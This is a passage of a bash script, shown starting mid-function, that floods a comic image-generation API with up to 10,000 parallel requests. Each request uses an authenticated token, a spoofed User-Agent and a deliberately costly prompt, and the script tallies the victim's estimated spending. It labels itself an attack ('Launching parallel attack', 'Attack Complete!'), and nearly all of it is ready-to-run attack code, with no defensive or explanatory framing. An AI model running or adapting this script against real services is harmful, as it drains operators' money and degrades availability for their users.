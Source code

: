 ```bash
  local prompt="Ultra detailed, hyperrealistic, 8K resolution, masterpiece quality, epic fantasy scene with dragons, castles, mountains, volumetric lighting, ray tracing, photorealistic textures, cinematic composition, award winning photography"
  
  RESPONSE=$(curl -s -w "\n%{http_code}" -X POST \
    "${TARGET_API}/api/comics/generate-image" \
    -H "Authorization: Bearer ${TOKEN}" \
    -H "Content-Type: application/json" \
    -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \
    -d "{\"panelDescription\":\"${prompt}\"}" \
    --max-time 60)
  
  HTTP_CODE=$(echo "$RESPONSE" | tail -n1)
  BODY=$(echo "$RESPONSE" | head -n-1)
  
  TOTAL_REQUESTS=$((TOTAL_REQUESTS + 1))
  
  if [ "$HTTP_CODE" == "200" ]; then
    SUCCESSFUL_REQUESTS=$((SUCCESSFUL_REQUESTS + 1))
    ESTIMATED_COST=$(echo "$ESTIMATED_COST + 0.040" | bc)
    echo "[$(date '+%H:%M:%S')] [SUCCESS] Request #${id} | Total: \$${ESTIMATED_COST}" | tee -a "$LOG_FILE"
  else
    FAILED_REQUESTS=$((FAILED_REQUESTS + 1))
    echo "[$(date '+%H:%M:%S')] [FAILED] Request #${id} | Status: ${HTTP_CODE}" | tee -a "$LOG_FILE"
  fi
}

# Export function for parallel execution
export -f generate_expensive_image
export TARGET_API TOKEN LOG_FILE
export TOTAL_REQUESTS SUCCESSFUL_REQUESTS FAILED_REQUESTS ESTIMATED_COST

# Main attack loop
echo "[+] Launching parallel attack..."

if command -v parallel &> /dev/null; then
  # Use GNU Parallel for maximum efficiency
  seq 1 10000 | parallel -j ${PARALLEL_JOBS} --halt soon,fail=1 \
    generate_expensive_image {}
else
  # Fallback: Background processes
  for i in $(seq 1 10000); do
    generate_expensive_image $i &
    
    # Limit concurrent jobs
    if (( i % PARALLEL_JOBS == 0 )); then
      wait
      echo "[+] Progress: ${i}/10000 requests sent"
    fi
  done
  wait
fi

# Print final statistics
echo ""
echo "=========================================="
echo "Attack Complete!"
echo "=========================================="
echo "Total Requests: ${TOTAL_REQUESTS}"
echo "Successful: ${SUCCESSFUL_REQUESTS}"
echo "Failed: ${FAILED_REQUESTS}"
```